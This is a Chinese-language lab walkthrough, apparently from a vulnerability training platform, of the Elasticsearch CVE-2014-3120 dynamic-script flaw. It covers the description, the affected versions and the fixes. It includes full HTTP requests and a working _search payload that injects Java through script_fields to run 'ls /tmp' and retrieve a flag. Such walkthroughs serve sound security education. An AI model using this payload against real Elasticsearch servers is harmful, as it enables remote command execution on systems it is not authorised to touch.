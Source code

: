 ElasticSearch命令执行漏洞(CVE-2014-3120)

## 一、漏洞描述

Elasticsearch 是一个基于 Lucene 库的搜索引擎，具有 HTTP Web 接口和无模式 JSON 文档。Elasticsearch 是用 Java 开发的，其支持 MVEL、js、Java 等语言，其老版本默认语言为 MVEL。

MVEL -一个被众多 Java 项目使用的开源的表达式语言。

Elasticsearch 1.2之前的版本默认配置启用了动态脚本，该脚本允许远程攻击者通过 _search 的 source 参数执行任意 MVEL 表达式和 Java 代码。

## 二、影响版本

Elasticsearch < 1.2


## 三、利用流程



1 启动 CVE-2014-3120 镜像，打开其访问地址查看，可见其版本为1.1.1

![avatar](./1.png)

![avatar](./2.png)

2 向 Elasticsearch 添加一条数据

![avatar](./3.png)

其数据包为

    POST /website/blog/ HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 26
    
    {
      "name": "vulfocus"
    }

3 script 为最终执行 Java 代码的地方，此字段会被默认当作脚本执行，按照其 json 格式向其填充要执行的代码即可

![avatar](./4.png)

最终目的为 /tmp 下的 flag，其数据包为

    POST /_search?pretty HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 361
```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
4 填入得到的 flag，成功则出现 恭喜！通过

![avatar](./5.png)

![avatar](./6.png)

## 四、修复方案

1、升级到新版本，大于等于1.2版本即可解决此问题

2、设置 script.disable_dynamic = true，官方已在1.2版本中将 true 设置为默认值


参考：

https://nvd.nist.gov/vuln/detail/CVE-2014-3120

https://www.elastic.co/cn/community/security/

https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-scripting.html

http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/search-request-script-fields.html

https://github.com/elastic/elasticsearch/issues/5853

https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/

https://www.t00ls.net/viewthread.php?tid=29408